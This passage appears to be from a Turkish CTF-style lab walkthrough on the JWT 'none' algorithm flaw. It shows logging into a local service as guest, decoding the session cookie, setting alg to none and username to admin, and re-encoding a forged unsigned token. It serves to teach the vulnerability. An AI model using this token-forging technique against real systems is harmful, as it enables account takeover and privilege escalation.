 Bu sayede sistem, token'ın imza doğrulamasını yapmaz ve saldırgan istedikleri payload'u oluşturarak güvenliği ihlal edebilir.

![JWT None Algoritması](https://i.ibb.co/C3kBbJxZ/20-3.png)

Bir saldırgan, başka bir kullanıcının hesabına erişim sağlamak için bu açığı kötüye kullanabilir.



### Bayrak Yakalamaca

- Bu zaafiyeti test etmek ve detaylı incelemek için 8089 portuna gidelim:

  ![1](https://i.ibb.co/DDCQSRPY/20-4.png)

- `guest` ve `123` olarak giriş yapmaya çalışalım:

  ![2](https://i.ibb.co/xKHmNGDD/20-4-1.png)

- `guest` ve `guest` olarak gir dedi. Yapalım:

  ![2](https://i.ibb.co/cSV71jsH/20-5.png)

- `jwt-session` adında bir cookie görünüyor. Bunu manipüle etmeye çalışalım:

  `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzQxMTc5ODUwfQ.Jzbt-zFXcUU5G9UfV0RAek_a-6uZPFYyyygkKq6KkeQ`

- Bilgilere dayanarak son noktadan sonraki kısım imza kısmı. Gereksiz olduğu için çıkaralım:

  `Jzbt-zFXcUU5G9UfV0RAek_a-6uZPFYyyygkKq6KkeQ` kısmını kaldırınca:

  `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzQxMTc5ODUwfQ` olarak ulaşırız.

- [Base64 Decode](https://appdevtools.com/base64-encoder-decoder) kullanarak decode edelim:

  ```json
  {"typ":"JWT","alg":"HS256"}{"username":"guest","exp":1741179850}
  ```

- alg kısmını `none` yapalım ve `username` kısmını `admin olarak değiştirelim`:

  ```json
  {"typ":"JWT","alg":"none"}{"username":"admin","exp":1741179850}
  ```

- ayrı ayrı encode edelim. Önce `{"typ":"JWT","alg":"none"}`:

  ![3](https://i.ibb.co/p6J8yywZ/20-6.png)

  `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=`

- Şimdi `{"username":"admin","exp":1741179850}`:

  ![4](https://i.ibb.co/vC0g3BfX/20-7.png)

  `eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQxMTc5ODUwfQ==`

- Bulduğumuz değerleri nokta ile birleştirelim: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQxMTc5ODUwfQ==`
